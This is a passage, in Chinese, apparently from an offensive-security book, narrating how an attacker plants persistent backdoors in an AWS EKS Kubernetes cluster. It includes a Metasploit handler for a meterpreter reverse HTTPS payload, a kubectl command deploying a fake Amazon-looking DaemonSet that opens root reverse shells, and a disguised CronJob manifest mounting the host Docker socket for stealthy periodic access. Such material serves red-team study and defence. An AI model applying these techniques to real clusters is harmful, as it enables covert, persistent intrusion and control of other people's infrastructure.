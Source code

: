 示例 9-5：创建我们自己的假 DaemonSet

经过几条 `sed` 命令后，我们准备好更新的清单，可以将其推送到 API 服务器。

与此同时，我们返回到我们的 Metasploit 容器，设置一个监听器，在端口 443 上提供类型为 `meterpreter_reverse_https` 的有效载荷，如下所示。这个有效载荷类型当然和我们在本章开始时使用的 `msfvenom` 命令中的类型是相同的：

```
root@Point1:~/# **docker ps**
CONTAINER ID      IMAGE          COMMAND
8e4adacc6e61      phocean/msf    "/bin/sh -c \"init.sh\""

root@Point1:~/# **docker attach 8e4adacc6e61**
root@fcd4030:/opt/metasploit-framework# **./msfconsole**
msf > **use exploit/multi/handler**
msf multi/handler> **set payload linux/x64/meterpreter_reverse_https**
msf multi/handler> **set LPORT 443**
msf multi/handler> **set LHOST 0.0.0.0**
msf multi/handler> **set LURI /msf**
msf multi/handler> **set ExitOnSession false**
msf multi/handler> **run -j**
[*] Exploit running as background job 3
```

我们将这个更新后的清单推送到集群，它将创建 DaemonSet 对象和三个反向 shell 容器：

```
shell> **kubectl -f apply -n kube-system aws-ds-manifest.yaml**
daemonset.apps/aws-node-cni created

# Metasploit container

[*] https://0.0.0.0:443 handling request from 34.244.205.187;
meterpreter > **getuid**
Server username: uid=0, gid=0, euid=0, egid=0
```

太棒了。节点可能会崩溃，Pods 也可能会被清除，但只要有节点带有 kafka-collector-broker 标签，我们的恶意容器就会一次又一次地在它们上面被调度，复活我们的后门。毕竟，谁敢质疑那些明显与 EKS 集群关键组件相关的、看起来像是 Amazon 的 Pod 呢？虽然通过模糊安全性可能不是一种成功的防御策略，但它在进攻世界中是一条黄金法则。

## 隐秘的后门

我们的稳定后门非常坚韧，可以在节点终止时存活，但它有点显眼。Pod 和 DaemonSet 会持续运行，并在集群中可见。因此，我们通过一个更加隐秘的后门来补充它，这个后门只有在偶尔启动时才会激活。

我们在集群级别设置了一个 cron 任务，该任务每天上午 10 点执行，激活一个 Pod。我们将使用与 DaemonSet 中不同的 AWS 账户，确保我们的后门数据或技术不会相互共享。Listing 9-6 展示了 cron 任务的清单文件。

```
apiVersion: batch/v1beta1
kind: CronJob
metadata:
  name: metrics-collect
spec:
  schedule: "0 10 * * *"
  jobTemplate:
 spec:
      template:
        spec:
          containers:
          - name: metrics-collect
            image: 882347352467.dkr.ecr.eu-west-1.amazonaws.com/amazon-metrics-collector
            volumeMounts:
            - mountPath: /var/run/docker.sock
              name: dockersock
          volumes:
          - name: dockersock
            hostPath:
              path: /var/run/docker.sock
```